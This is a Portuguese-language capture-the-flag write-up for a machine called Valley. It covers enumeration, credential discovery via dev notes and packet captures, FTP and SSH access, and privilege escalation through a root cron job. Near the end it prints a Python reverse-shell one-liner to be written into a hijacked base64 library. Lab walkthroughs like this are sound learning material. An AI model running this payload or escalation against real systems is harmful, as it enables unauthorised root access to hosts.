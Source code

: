 # _**Valley CTF**_
![](valley.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website, vamos investigar  
Vamos realizar um scan com <mark>Gobuster</mark> para procurar diretórios  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos alguns diretórios interessantes  
Vamos investigar  
Nos seguintes diretórios, não encontramos nada:
* _/gallery_
* _/pricing_

Um detalhe chamou a atenção em _/pricing/note.txt_  
Pede para alguém não deixar notas soltas  
Algo chamou a atenção em _/static_, estava vazio e não tinha nenhum redirecionamento em link  
Investigando novamente com <mark>Gobuster</mark> em _/status, encontramos algo interessante  
Tentando acessar os outros diretórios numéricos, temos as imagens, mas o diretório _/00_, temos uma mensagem  

![](scan_gobuster2.jpg)

![](note.jpg)

Acessando o diretório listado, temos uma página de login!

## _**Ganhando acesso**_
Primeiro, uma tentativa de SQL Injection foi feita, mas sem nenhum sucesso  
Segundo, foi tentado observar o que acontecia quando realizavamos uma requisição para o site no login com <mark>BurpSuite</mark>, mas nada  
Observando as requisições feitas para o site ao acessá-la através das ferramentas de desenvolvedor, especificamente em _network_, temos algo que chama a atenção  
Um diretório de nome _/dev.js_  
Acessando o conteúdo de _devNotes37370.txt_, temos uma mensagem  

![](message_to_dev.jpg)

Acima, temos as credenciais para realizar login, do qual é usado para pegar as notas, mas não foi necessário  
Como a nota diz, temos um servidor FTP, mas nada foi detectado na porta 21  
Vamos realizar novamnte um scan com <mark>Nmap</mark>
> ```bash
> nmap -p- -sV --open [ip_address]
> ```
![](scan_nmap2.jpg)

E encontramos! O mesmo valor do arquivo _.txt_ encontrado  
Vamos tentar realizar login via FTP pelas credenciais encontradas: ```ftp [ip_address] [port]```  
E sucesso!  

![](ftp_login.jpg)

Investigando, temos alguns arquivos dos quais realizamo _download_  

![](ftp_files.jpg)

Vamos utilizar <mark>Wireshark</mark> para investigar estes arquivos _.pcapng_  
O primeiro, _siemFTP.pcapng_, nos revelou alguns comandos e usuário, mas não conseguimos realizar login em nenhum  
O segundo, siemHTTP1.pcapng, não encontramos nada de relevante  
O terceiro, siemHTTP2.pcapng, encontramos credenciais novamente!  

![](cred_http_found.jpg)

Podemos tentar realizar login via FTP ou SSH  
Obtemos sucesso em SSH!  

![](login_ssh.jpg)

## _**Escalando privilégios**_
Executamos alguns comandos básicos para verificação de arquivos, como ```sudo -l```, mas não temos permissão ou não encontramos algo  
Então, transferimos <mark>LinPeas</mark> para a máquina-alvo e executamos  
Encontramos algo interessante em _cron jobs_  

![](cron_jobs.jpg)

Um script em python que é executado pelo administrador  
Ele parece utilizar _base64_ para criptografia  
Devido as permissões, não iremos poder alterar nenhum para conseguir escalar privilégios  
Voltando as origens, _/home/valleyAuthenticator_ parece ser um arquivo promissor  
Podemos realizar _download_ para nossa máquina e investigar  
Utilizando ```string```, encontramos uma informação interessante  

![](strings_result.jpg)

Pesquisando sobre o programa, encontramos que, com base na visão geral fornecida no site UPX, podemos descompactar executáveis  
Executamos o comando ```upx -d valleyAuthenticator```  
Novamente, executamos ```strings```  
Vasculhando pelo resultado, encontramos duas _hashes md5_ e utilizamos crackstation para conseguir seu real valor  

![](crackstation.jpg)

Agora com o usuário _Valley_, que pertence ao grupo valleyAdmin, podemos escrever na biblioteca base64 importada naquele script para obter acesso root  
> ```bash
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
> ```
Ligamos nosso ```netcat``` e aguardamos acesso _root_  

![](root.jpg)

